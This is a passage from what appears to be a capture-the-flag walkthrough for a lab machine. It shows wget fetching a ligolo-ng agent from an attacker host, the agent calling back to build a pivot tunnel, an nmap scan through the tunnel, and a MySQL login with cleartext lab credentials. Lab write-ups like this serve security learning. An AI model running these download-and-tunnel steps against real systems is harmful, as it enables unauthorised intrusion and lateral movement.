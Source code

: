```shell
# Move agent file to the target first
# On Kali
cp /tools/agent .
python3 -m http.server 8080

# On target CLI
cd /tmp
wget http://10.10.14.206:8080/agent

# Start ligolo-ng on Kali
proxy -selfcert

# Start agent on the target
chmod +x agent
./agent -connect 10.10.14.206:11601 --ignore-cert

# Create an interface
sudo ip tuntap add user Vorkharium mode tun ligolo
sudo ip link set ligolo up

# Add internal route
sudo ip route add 240.0.0.1 dev ligolo

# Start session on ligolo-ng session
[Agent : www-data@magic] » session
? Specify a session : 1 - #1 - www-data@magic - 10.129.140.54:45140
[Agent : www-data@magic] » start
[Agent : www-data@magic] » INFO[0268] Starting tunnel to www-data@magic
```

Now we can test access with nmap:

```shell
# Check target with nmap
nmap -p- -Pn --min-rate 10000 240.0.0.1 -v

# It works, we got the following results
Nmap scan report for 240.0.0.1
Host is up (0.098s latency).
Not shown: 65452 filtered tcp ports (no-response), 80 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

### Accessing and enumerating MySQL database to find credentials

Now we can try accessing MySQL from Kali:

```shell
mysql -h 240.0.0.1 -u theseus -piamkingtheseus
```
